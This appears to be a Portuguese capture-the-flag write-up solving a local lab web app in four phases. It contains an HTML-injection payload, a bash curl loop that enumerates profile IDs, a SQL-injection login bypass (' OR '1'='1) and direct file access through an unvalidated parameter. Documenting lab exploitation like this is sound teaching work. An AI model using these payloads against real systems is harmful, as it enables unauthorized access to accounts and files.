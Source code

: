 ### Fase 1 — HTML Injection

**Comportamento observado ao enviar o conteúdo:**

```html
<p>Seu feedback: <input type="text" value="*texto que o usuário informa*"></p>
```

**Payload testado no campo:**

```html
"><textarea>
```

**Retorno recebido:**

```html
 <p>Seu feedback: <input type="text" value=""><textarea>"<!-- DICA SECRETA: flag{comentario_oculto} -->></p>
```

---

### Fase 2 — Access Control

Criei um script simples que varre IDs e detecta perfis válidos pela presença da string `Informações do Usuário` na resposta da requisição:

```bash
for id in {1..10000}; do
    response=$(curl -s "http://localhost:5000/perfil?id=$id")

    if echo "$response" | grep -q "Informações do Usuário"; then        
        echo "ID $id: http://localhost:5000/perfil?id=$id"
    fi
done
```

**Exemplo de saída:**

```bash
ID 1: http://localhost:5000/perfil?id=1
ID 1337: http://localhost:5000/perfil?id=1337
```

---

### Fase 3 — SQL Injection

A aplicação executa uma query SQL ao submeter `username` e `password`:

```sql
SELECT * FROM usuarios WHERE username = '' AND password = ''
```

**Exploração (exemplo):**

Injetando:

```sql
' OR '1'='1
```

A consulta resultante pode se tornar algo equivalente a:

```sql
SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Isso retorna uma condição verdadeira e permitir a autenticação.

---

### Fase 4 — IDOR (Insecure Direct Object Reference)

Acessei por um arquivo específico no servidor local, por exemplo `flag.txt`, você apontou a URL direta:

```url
http://localhost:5000/documento?file=flag.txt
```

Como a aplicação não valida o parâmetro `file`, isso permite o acesso a arquivos sensíveis.